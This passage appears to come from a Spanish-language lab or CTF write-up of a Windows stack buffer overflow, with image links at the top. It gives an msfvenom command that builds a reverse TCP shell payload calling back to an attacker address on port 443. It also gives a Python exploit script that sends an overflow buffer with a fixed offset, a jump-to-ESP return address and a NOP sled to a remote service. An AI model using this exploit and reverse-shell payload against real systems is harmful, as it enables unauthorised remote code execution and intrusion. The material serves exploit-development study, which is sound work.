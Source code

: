 ![20240221024851.png](20240221024851.png)


![20240221024912.png](20240221024912.png)
### Generación de payload con msfvenom

Luego de obtener las dirección del salto al ESP, luego debemos convertir la dirección de HEX a Little Endian y tendremos lo siguiente: `retn = "\xc3\x14\x04\x08"` y también agregaremos los NOPs `padding = "\x90"*16`

Ahora si podemos crear nuestro payload indicándole los badchars

```php
❯ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x0a" -f c
```

```python
#/usr/bin/python3

import socket
ip = "192.168.98.24"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90"*16

payload=("")

postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
	s.connect((ip, port))
	print("Sending evil buffer...")
	s.send(bytes(buffer + "\r\n", "latin-1"))
	print("Done!")
except:
	print("Could not connect.")
```
